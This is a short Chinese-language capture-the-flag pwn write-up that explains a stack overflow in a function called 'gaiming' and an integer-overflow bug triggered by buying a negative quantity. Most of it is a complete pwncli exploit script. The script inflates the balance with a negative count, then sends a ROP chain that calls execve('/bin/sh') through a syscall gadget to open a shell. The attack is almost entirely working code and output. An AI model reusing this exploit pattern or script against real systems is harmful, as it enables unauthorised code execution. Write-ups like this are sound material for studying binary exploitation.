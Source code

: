 gaiming 函数存在栈溢出，程序也没有 PIE，因此思路明确为 ROP。

同时发现前两个函数都有整型溢出，输入负数可以使余额变大，因此可以进到 gaiming 函数中。

完整 exp 如下:

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
#  set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(choice):
    ru(b'> ')
    sl(i2b(choice))
def pijiu(count):
    cmd(1)
    ru(b'3.')
    ru(b"\n")
    sl(i2b(1))
    ru(b'\n')
    sl(i2b(count))

syscall = 0x0000000000402404
pop_rdi_ret = 0x000000000040264f
name = 0x4E60F0
pop_rax_ret = 0x0000000000458827

pijiu(-100000)
cmd(4)
cmd(5)
ru(b'\n')
payload = b"/bin/sh\x00"
payload = payload.ljust(32+8, b"a")
payload += p64(pop_rdi_ret)
payload += p64(name)
payload += p64(0x000000000040a67e)
payload += p64(0)
payload += p64(0x00000000004a404b)
payload += p64(0)*2
payload += p64(pop_rax_ret)
payload += p64(59)
payload += p64(syscall)
sl(payload)

ia()
```
